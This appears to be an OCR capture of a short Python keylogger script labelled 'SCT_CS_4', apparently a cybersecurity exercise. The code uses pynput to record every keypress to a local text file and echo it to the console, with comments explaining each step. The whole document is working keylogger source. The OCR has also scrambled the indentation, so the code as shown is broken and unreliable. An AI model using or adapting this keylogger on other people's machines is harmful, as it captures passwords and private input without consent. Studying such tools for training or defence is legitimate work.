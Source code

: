 # SCT_CS_4
    from pynput.keyboard import Listener  # Import the Listener from pynput to capture keystrokes
    import os  # Import os module for file handling

# === LOG FILE CONFIGURATION ===
LOG_FILE = "keylog.txt"  # File where keystrokes will be stored

    def log_key(key):
"""
    Function to log keystrokes into a file.
    
   Parameters:
    - key: The key that was pressed.
    """
    try:
      # Get the character for normal keys (letters, numbers, symbols)
      
              key = key.char  
   # Convert special keys (Shift, Enter, etc.) to string
  except AttributeError:
           key = str(key) 
    
  # Append the captured key to the log file
    with open(LOG_FILE, "a") as file:
        file.write(key + " ")  # Save the keypress with spacing for readability
    
  # Print the key to the console in real-time
    print(key, end=" ", flush=True)

def main():
    """
    Main function to initialize and start the keylogger.
    """
    print("[+] Keylogger Started. Press Ctrl+C to stop.")  # Notify user that the keylogger has started
    
   # Start listening for keystrokes
    with Listener(on_press=log_key) as listener:
        try:
            listener.join()  # Keep the listener running
        except KeyboardInterrupt:
            print("\n[+] Keylogger Stopped.")  # Notify user that logging has stopped
            listener.stop()  # Stop the listener

# === RUN THE PROGRAM ===
    if __name__ == "__main__":
    main()  # Start the keylogger

